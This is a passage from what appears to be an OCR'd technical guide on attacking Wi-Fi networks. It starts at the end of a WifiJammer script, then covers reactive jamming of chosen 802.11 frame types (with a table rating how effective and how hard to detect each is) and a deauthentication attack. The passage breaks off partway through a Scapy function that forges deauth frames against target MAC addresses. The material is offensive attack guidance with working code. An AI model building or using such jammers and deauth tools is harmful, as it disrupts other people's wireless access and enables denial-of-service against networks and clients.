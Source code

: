      if __name__ == '__main__':
         jammer = WifiJammer()
         jammer.start()
         input("Press Enter to quit...")
         jammer.stop()
     ```
   
   - **Selective Packet Jamming**: Targeted disruption of specific frames based on real-time detection.
     * **Reactive Jamming Process**:
       1. Monitor the channel for specific packet types/patterns
       2. Quickly detect the beginning of targeted packets
       3. Switch to transmit mode and jam only during the target packet
       4. Return to monitoring mode
     
     * **Critical Timing Requirements**:
       * Detection to jamming transition must occur within microseconds
       * Processing latency is the main challenge in reactive jammers
       * Full-duplex radio capability significantly improves effectiveness
     
     * **Target Selection Strategies**:
       * Management frames (particularly authentication/association)
       * Control frames (ACKs, RTS/CTS)
       * Data frames matching specific patterns (source/destination filters)
     
     | Frame Type | Jamming Effectiveness | System Impact | Detection Difficulty |
     |------------|------------------------|---------------|----------------------|
     | Beacon | High | Network discovery prevention | Low |
     | Authentication | Very High | Connection establishment blocking | Medium |
     | RTS/CTS | Medium | Throughput degradation | High |
     | ACK | High | Forced retransmissions, throughput reduction | Very High |
     | Data | Variable | Selective service disruption | Medium |
   
   - **Deauthentication Attacks**: Specifically targeting the connection management frames.
     * **Attack Mechanism**:
       * 802.11 management frames are not authenticated in most deployments
       * Forged deauthentication frames cause clients to disconnect
       * Can be selectively targeted at specific clients or broadcast to all
     
     * **Implementation with Scapy**:
     ```python
     #!/usr/bin/env python3
     from scapy.all import *
     import time
     
     def deauth_attack(target_mac, gateway_mac, iface="wlan0mon", count=10):
         # 802.11 frame
         # addr1: destination MAC
         # addr2: source MAC
         # addr3: Access Point MAC
         pkt = RadioTap() / \
               Dot11(type=0, subtype=12, addr1=target_mac,
                     addr2=gateway_mac, addr3=gateway_mac) / \
               Dot11Deauth(reason=7)
         